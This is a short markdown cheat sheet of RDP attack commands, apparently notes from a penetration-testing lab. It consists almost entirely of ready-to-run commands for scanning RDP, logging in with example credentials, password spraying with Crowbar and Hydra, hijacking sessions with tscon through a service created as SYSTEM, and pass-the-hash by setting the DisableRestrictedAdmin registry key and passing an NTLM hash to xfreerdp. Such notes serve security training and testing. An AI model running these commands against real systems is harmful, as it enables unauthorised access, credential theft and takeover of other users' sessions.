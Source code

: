 1. Nmap: `nmap -sV -sC 10.129.201.248 -p3389 --script rdp*`
2. [rdp-sec-check](https://github.com/CiscoCXSecurity/rdp-sec-check)
    1. `git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check`
    2. `./rdp-sec-check.pl 10.129.201.24` 
3. Initiate an RDP Session
    1. `xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248`
    2. `xfreerdp /u:username /p:password /v:10.129.75.180 /cert-ignore /bpp:8 /network:modem /compression -themes -wallpaper /clipboard /audio-mode:1 /auto-reconnect -glyph-cache /dynamic-resolution /drive:linux,/`
4. Crowbar - RDP Password Spraying: `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`
5. Hydra - RDP Password Spraying: `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`
#### **RDP Session Hijacking**
1. To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. It works by specifying which SESSION ID (4 for the lewen session in our example) we would like to connect to which session name (rdp-tcp#13, which is our current session): `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`
2. Escale privileges from local administrator to SYSTEM;
    1. `query user`
    2. `sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"`
    3. `net start sessionhijack`
### **RDP Pass-the-Hash (PtH)**
1. Adding the DisableRestrictedAdmin Registry Key: `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
2. Once the registry key is added, we can use xfreerdp with the option /pth to gain RDP access: `xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9`
